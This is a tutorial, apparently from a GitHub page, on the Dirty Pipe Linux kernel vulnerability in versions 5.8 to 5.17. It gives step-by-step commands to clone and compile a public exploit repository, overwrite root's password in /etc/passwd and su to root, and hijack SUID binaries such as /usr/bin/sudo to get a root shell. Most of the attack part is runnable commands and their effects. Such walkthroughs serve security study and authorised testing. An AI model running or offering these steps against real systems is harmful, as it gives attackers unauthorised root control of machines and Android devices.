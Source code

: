 
## What is Dirty Pipe?

**Dirty Pipe** is a security vulnerability in the **Linux kernel versions 5.8 to 5.17**.  
It allows a **normal (low-privileged) user** to **write data into files they’re not supposed to write to** — including files owned by the **root user** like `/etc/passwd`.

---

## 🧪 Why is it Dangerous?

Normally:

- Regular users can only **read** files like `/etc/passwd`.
- They **cannot write** or change them.

With Dirty Pipe:

- If you can **read** a file, you can also **write into it** even if it's **root-owned**.
- This can be used to **modify system files** or **inject commands** as root.


1. Check the Kernel Version
```bash
uname -r
```
If it's between **5.8 and 5.17**, the system is likely **vulnerable**.

2. Download the Exploit Code
```bash
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```
his gives you two files:
- `exploit-1`: modifies `/etc/passwd`
- `exploit-2`: abuses SUID binaries
___
### 3. Exploit 1 – Modify `/etc/passwd` to Get Root Access

Run:
```bash
./exploit-1
```
It does this:

- Makes a **backup** of `/etc/passwd`
- Sets root's password to `piped`
- Tells you to use `su` to get root access

Then run:
```bash
su
```
You’ll become **root**!
___
### 4. Exploit 2 – Abuse SUID Binaries

First, find SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```

This shows files that always run as **root**, even if a normal user runs them (like `/usr/bin/sudo`, `/usr/bin/passwd`, etc.).

Pick one (like `/usr/bin/sudo`) and run:
```bash
./exploit-2 /usr/bin/sudo
```
This does:

- Temporarily replaces the binary
- Pops a **root shell**
- Restores the binary after use

## Android Devices Also Affected

Because Android is based on Linux, apps could abuse this vulnerability too and take full control of the phone.